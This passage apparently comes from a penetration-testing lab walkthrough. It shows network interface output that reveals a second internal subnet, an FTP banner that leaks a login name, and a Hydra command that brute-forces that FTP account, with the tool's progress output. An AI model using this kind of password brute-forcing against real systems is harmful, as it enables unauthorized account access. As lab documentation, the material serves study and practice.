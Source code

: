 This is the content, which discovers a new IP in a new network: **172.16.50.224**

```
<!-- cmd: --><hr />ens192    Link encap:Ethernet  HWaddr 00:50:56:a0:88:b6  
          inet addr:172.16.37.234  Bcast:172.16.37.255  Mask:255.255.255.0
          inet6 addr: fe80::250:56ff:fea0:88b6/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:2038265 errors:0 dropped:23 overruns:0 frame:0
          TX packets:1588929 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:284381733 (284.3 MB)  TX bytes:245921592 (245.9 MB)

ens224    Link encap:Ethernet  HWaddr 00:50:56:a0:09:4d  
          inet addr:172.16.50.224  Bcast:172.16.50.255  Mask:255.255.255.0
          inet6 addr: fe80::250:56ff:fea0:94d/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:52 errors:0 dropped:13 overruns:0 frame:0
          TX packets:30 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:5703 (5.7 KB)  TX bytes:4104 (4.1 KB)

lo        Link encap:Local Loopback  
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:194609 errors:0 dropped:0 overruns:0 frame:0
          TX packets:194609 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1 
          RX bytes:16100124 (16.1 MB)  TX bytes:16100124 (16.1 MB)
```
{% endhint %}

{% hint style="info" %}
**ftp splash screen suggests to login with 'ftpuser' while trying to connect.**

```
ftp 172.16.37.234 40121 
Connected to 172.16.37.234.
220 ProFTPD 1.3.0a Server (ProFTPD Default Installation. Please use 'ftpuser' to log in.) [172.16.37.234]
Name (172.16.37.234:kali): ftpuser
```
{% endhint %}

{% tabs %}
{% tab title="Hydra" %}
```bash
hydra -t 30 -l ftpuser -P /usr/share/amass/wordlists/all.txt ftp://172.16.37.234:40121
```
{% endtab %}

{% tab title="Ouput" %}
```bash
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-07-18 14:34:05
[DATA] max 30 tasks per 1 server, overall 30 tasks, 420112 login tries (l:1/p:420112), ~14004 tries per task
[DATA] attacking ftp://172.16.37.234:40121/
[STATUS] 1439.00 tries/min, 1439 tries in 00:01h, 418679 to do in 04:51h, 30 active
[STATUS] 1712.67 tries/min, 5138 tries in 00:03h, 414980 to do in 04:03h, 30 active
[STATUS] 1845.57 tries/min, 12919 tries in 00:07h, 407199 to do in 03:41h, 30 active
[STATUS] 1657.07 tries/min, 24856 tries in 00:15h, 395262 to do in 03:59h, 30 active
[STATUS] 1628.10 tries/min, 50471 tries in 00:31h, 369648 to do in 03:48h, 30 active
[STATUS] 1722.51 tries/min, 80958 tries in 00:47h, 339161 to do in 03:17h, 30 active
```